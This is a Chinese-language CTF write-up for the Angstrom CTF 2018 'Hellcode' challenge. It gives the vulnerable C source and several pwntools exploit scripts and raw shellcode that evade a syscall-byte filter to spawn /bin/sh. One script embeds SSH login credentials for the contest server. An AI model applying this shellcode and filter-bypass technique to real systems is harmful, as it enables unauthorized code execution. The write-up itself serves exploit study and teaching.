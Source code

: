 ```c
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

void code_runner()
{
	char tmp_code[18];
	char *code;
	bool executing = false;

	printf("Please enter your code: ");
	fflush(stdout);

	fgets(tmp_code, 17, stdin);

	char *end = strchr(tmp_code, '\n');
	if (end == NULL) end = &tmp_code[16];
	*end = '\0';
	int len = end - tmp_code;

	/* NO KERNEL FUNCS */
	if (strstr(tmp_code, "\xcd\x80") || strstr(tmp_code, "\x0f\x34") || strstr(tmp_code, "\x0f\x05"))
	{
		printf("Nice try, but syscalls aren't permitted\n");
		return;
	}

	/* NO CALLS TO DYNAMIC ADDRESSES */
	if (strstr(tmp_code, "\xff"))
	{
		printf("Nice try, but dynamic calls aren't permitted\n");
		return;
	}

	code = mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
	memcpy(code, tmp_code, len);
	code[len] = 0xc3;

	mprotect(code, 4096, PROT_READ|PROT_EXEC);
	if (executing == true)
	{
		printf("ROP chain detected!\n");
		munmap(code, 4096);
		exit(-1);
	}

	void (*func)() = (void (*)())code;
	executing = true;
	func();

	munmap(code, 4096);
}

int main(int argc, char **argv)
{
	gid_t gid = getegid();
	setresgid(gid,gid,gid);

	printf("Welcome to the Executor\n");
	code_runner();

	return 0;
}

```

Shellcode中不能含有"\xcd\x80”， "\x0f\x34”，”\x0f\x05”，"\xff”。每次读取17个字节，并且最后会加入一个`c3`也就是ret指令。

相当于手写godgets，不过当时忘了下载环境中的libc了。。。不过似乎和我本地的一样。后来看大佬的WP，可以直接输入shellcode，不用一步步的构造。

程序之中RCX中存放着和libc地址有关系的地址，可以拿来直接用。使用one-gadget获得一个`execve("/bin/sh", NULL, NULL)`的地址0x45216。注意one-gadget查找的gadget需要满足一些条件，比如这个就需要RAX=0。还是通过固定的偏移量，在本地：8777(和libc有关的rcx)-(7000(本地libc基地址)+5216(shell偏移))

```python
from pwn import *

shell = ssh("username","shell.angstromctf.com",port=22,password="password")
p = shell.process("/problems/hellcode/hellcode")
pay = "sub rcx, 0x%x; push rcx; ret" % (0x7f2b06d28777 - (0x7f2b06c27000 + 0x45216))
p.sendline(asm(pay))
p.interactive()
```

也可以rcx指向shell后直接jmp过去。
附带两种复杂的操作方法，不过。。。看起来以后会用的到。

第一种：
[Angstrom CTF 2018 Hellcode Write-up (Pwn200) - PwnDiary](https://www.pwndiary.com/write-ups/angstrom-ctf-2018-hellcode-write-up-pwn200/)
```python
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
 
p1 = '\x59\xb8\x11\xab\x09\x40\xc1\xe8\x08\x50\x41\x5c\x50'
p2 = '\x59\x6a\x0f\x58\x48\xc1\xe0\x03\x48\x8b\x1c\x04\x41\x54'
p3 = '\x59\x48\x81\xeb\x11\x11\x11\x11\x41\x54'
p4 = '\x59\x48\x81\xc3\x51\xd0\x1b\x11\x53\x41\x54'
p5 = '\x59\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x41\x54'
p6 = '\x59\x5a\x50\x53\x54\x5b\x52\x41\x54'
p7 = '\x59\x99\x53\x5f\x48\x31\xf6'
payloads = [p1, p2, p3, p4, p5, p6, p7]
 
s =  ssh(host='shell.angstromctf.com', user='team472787', password='04796ad685de')
sh = s.process('/problems/hellcode/hellcode')
 
sh.recvline()
for p in payloads:
    sh.recvuntil("Please enter your code: ")
    sh.sendline(p)
    
sh.interactive()
```

第二种：
![](08A4AB40-07B9-4807-988D-D5A026A68B03.png)

```
(python -c 'print "\x4C\x8B\x24\x25\x48\x20\x60\x00\xB8\x96\x09\x40\x00\x50\xC3\n\x49\x81\xC4\x50\x4C\x02\x00\xB8\x96\x09\x40\x00\x50\xC3\n\x49\xC7\xC7\x90\x20\x60\x00\xB8\x96\x09\x40\x00\x50\xC3\n\x41\xC6\x07\x73\xB8\x96\x09\x40\x00\x50\xC3\n\x49\xC7\xC7\x91\x20\x60\x00\xB8\x97\x09\x40\x00\x50\xC3\n\x41\xC6\x07\x68\xB8\x96\x09\x40\x00\x50\xC3\n\x48\xC7\xC7\x90\x20\x60\x00\x41\x54\xC3\n"';cat)|./hellcode

```
